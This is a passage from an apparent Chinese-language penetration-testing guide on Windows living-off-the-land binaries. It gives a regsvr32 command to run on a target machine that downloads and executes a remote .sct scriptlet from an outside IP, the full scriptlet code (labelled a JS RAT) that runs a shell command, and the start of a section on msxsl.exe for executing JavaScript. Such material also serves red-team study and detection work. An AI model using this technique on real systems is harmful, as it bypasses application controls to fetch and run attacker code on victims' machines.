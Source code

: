 Regsvr32命令用于注册COM组件，是Windows系统提供的用来向系统注册控件或者卸载控件的命令，以命令行方式运行

在目标机上执行：

```text
regsvr32.exe /u /n /s /i:http://192.168.28.131:8888/file.sct scrobj.dll
```

可以通过自己构造.sct文件，去下载执行我们的程序

```text
<?XML version="1.0"?>
<scriptlet>
<registration
    progid="ShortJSRAT"
    classid="{10001111-0000-0000-0000-0000FEEDACDC}" >
    <script language="JScript">
        <![CDATA[
            ps  = "cmd.exe /c calc.exe";
            new ActiveXObject("WScript.Shell").Run(ps,0,true);
        ]]>
</script>
</registration>
</scriptlet>
```

执行命令，成功弹计算器：

![](../.gitbook/assets/20200413-13.png)

**14、MSXSL.EXE**

msxsl.exe是微软用于命令行下处理XSL的一个程序，所以通过他，我们可以执行JavaScript进而执行系统命令。
